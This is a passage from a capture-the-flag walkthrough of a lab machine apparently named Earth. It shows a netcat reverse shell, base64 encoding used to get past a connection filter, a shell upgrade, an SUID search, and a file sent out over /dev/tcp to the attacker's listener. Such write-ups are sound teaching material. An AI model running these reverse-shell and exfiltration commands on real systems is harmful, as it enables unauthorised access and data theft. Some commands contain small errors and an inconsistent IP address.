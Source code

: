 Here we find the first flag.
<img width="955" height="893" alt="image" src="https://github.com/user-attachments/assets/43db2ecc-4ec5-4042-9b06-e48efb8b5b1b" />

## Step 6 (Foothold)

Now we can use netcat to get a remote connection to the machine.

So in the CLI of the Earth machine type in `nc -e /bin/bash 10.38.1.1 4444` But before running the command make sure to start the listener on the kali terminal using `nc -lvnp 4444`

`4444` is just the listening port.

`10.38.1.1` is your VM's ip address and if you are not sure of the ip address of the VM you can use `ifconfig` to get it.

<img width="955" height="331" alt="image" src="https://github.com/user-attachments/assets/e47b2fbe-ed82-4b0d-8dd2-e7afb5535549" />

Upon running the command we can see that the machine forbids remote connections.

<img width="955" height="903" alt="image" src="https://github.com/user-attachments/assets/365e6b30-eca0-498b-9f92-177fdddc5a10" />

We can bypass this by encoding the command using base-64 format.
Go back to the kali terminal( Open a separate terminal so as not to disrupt the listener set ) and input `echo nc -e /bin/bash 10.38.1.1 4444 | base64`
This outputs the encoded command that we can then copy and paste on the Earth's machine CLI.

`
(kali@ kali)-[~]
$ echo 'nc -e /bin/bash 10.38.1.110 4444' | base64
bmMgLWUgL2Jpbi9iYXNoIDEwLjM4LjEuMTEwIDQØNDQK
`
On Earth's CLI input `echo 'nc -e /bin/bash 10.38.1.110 4444' | base64 -d | bash` and run it

On our listener we can see that the listener starts to listen from port 4444 from an unknown source.
Under the listener input `python-c 'import pty;pty.spawn("/bin/bash")'`.This is used to spawn an interactive bash shell.

<img width="797" height="137" alt="image" src="https://github.com/user-attachments/assets/cd645aab-30a7-464f-9300-6fc2cc9cb543" />

## Step 7 ( Privilege escalation ) 

First we need to check the SUIDs and see if there is anyway to escalate the privileges.

<img width="802" height="350" alt="image" src="https://github.com/user-attachments/assets/278e4d87-f5ca-4b9d-a36e-be28aeeff6dd" />

We found a reset_root script that could help us gain root access.

<img width="817" height="148" alt="image" src="https://github.com/user-attachments/assets/2239d865-b2f5-4f64-ad95-2e6abb5cae98" />

Running file command with the script to know its type (`file /usr/bin/reset_root`) we fnd that the file is of a human readable text.

When we run the the file itself it gives an error saying that not all triggers are present.
To see what the issue is we need to upload the file to the VM machine and for that we need the netcat tool again. So set it up as follows;
  1. Create another tab for the terminal and set up a listener on port 3333
      `
      (kali@ kali)-[~]
      -$ nc -lvnp 3333 > reset_root
      `
  2. On the target machine that we opened on the terminal type in `cat /usr/bin/reset_root > /dev/tcp/10.38.1.110/3333`
  3. On clicking enter the reset_root file is saved to the VM and using `ls` we can confirm that.
